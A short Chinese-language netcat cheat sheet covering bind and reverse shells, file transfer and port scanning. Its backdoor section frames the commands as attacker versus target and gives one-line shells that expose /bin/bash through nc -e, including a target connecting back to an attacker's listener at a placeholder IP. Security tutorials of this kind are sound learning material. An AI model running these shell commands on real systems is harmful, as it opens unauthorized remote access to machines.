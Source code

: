 # netcat

> netcat 是一种常用的网络工具，主要用于在网络间建立 TCP 或 UDP 连接来进行数据传输、传输文件、端口扫描、远程系统管理以及后门访问。

## 后门访问

> 例如攻击者在局域网，而靶机在公网并且关闭了防火墙，绑定了 shell 提供给攻击者访问的情况，一般为**正向 shell**。

* 靶机：

   ```bash
   nc -lvp 8888 -e /bin/bash
   ```

* 攻击机（在局域网中）：

   ```bash
   nc -v ip 8888
   ```

此时我们在攻击机中就可以获取靶机的终端访问权限

> 而攻击者将 shell 绑定至本地端口，供靶机远程访问。靶机主动连接正在监听的攻击者的行为就是**反向 shell**。（*此时攻击者位于公网*）

* 攻击机（位于公网）：

   ```bash
   nc -lvp 8888
   ```

* 靶机：

   ```bash
   nc -v ip 8888 -e /bin/bash
   ```

## 文件传输

> 文件上传：将客户端文件上传到服务端

服务端：

```bash
nc --recv-only -lvp 8888 > listen.sh
```

客户端：

```bash
nc --send-only -v ip 8888 < listen.sh
```

> 文件下载：客户端从服务端下载文件

服务端：

```bash
nc --send-only -lvp 8888 < listen.sh
```

客户端

```bash
nc --recv-only -v ip 8888 > listen.sh
```

## 端口扫描

> 通过 netcat 进行端口扫描，可以快速判断目标主机的端口是否开放。

```bash
nc -vz ip port
```

参见：<https://wangchujiang.com/reference/docs/netcat.html>
